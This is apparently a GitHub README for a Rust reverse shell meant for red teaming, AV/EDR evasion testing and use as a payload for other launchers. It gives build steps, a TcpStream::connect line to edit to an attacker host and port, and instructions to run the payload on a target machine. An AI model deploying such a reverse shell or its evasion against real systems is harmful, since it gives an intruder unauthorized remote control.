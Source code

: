 ## 🔁 Simple Reverse Shell Program in Rust

### Purpose

1. Serve as a test tool for red teaming scenarios
2. Test evasion of antivirus (AV) and endpoint detection & response (EDR) tools
3. Use as a payload for **StegLauncher** and **MissionEvasion**

---

### Development & Usage

#### Pre-conditions:

1. **Install `rustup` to set up the Rust development environment:**

   ```bash
   curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
   ```

   Add the following directory to your `PATH`:

   ```bash
   $HOME/.cargo/bin
   ```

2. **Clone this project:**

   ```bash
   git clone https://github.com/Amaris-Genie-Email-Gateway/ReverseShell
   cd ReverseShell
   ```

---

#### Usage:

1. **Edit the hardcoded IP address**:

   * Open:
     `src/bin/reverseshell_payload.rs`
   * Change the IP to your **listening host** and **port**:

   ```rust
   TcpStream::connect("<your_ip>:4444")
   ```

2. **Build the payload and listener**:

   ```bash
   cargo build --release --bin reverseshell_payload
   cargo build --release --bin reverseshell_listener
   ```

3. **Run the payload on the target machine**, and the listener on your local (attacker) machine.

4. **If the connection is successful**, you can run:

   ```bash
   whoami
   ```

   to verify that the reverse shell is active.

---

### Disclaimer

This program is **strictly intended for red teaming and educational use in controlled environments**.
**Any unauthorized use on systems without explicit permission is illegal and strictly forbidden.**
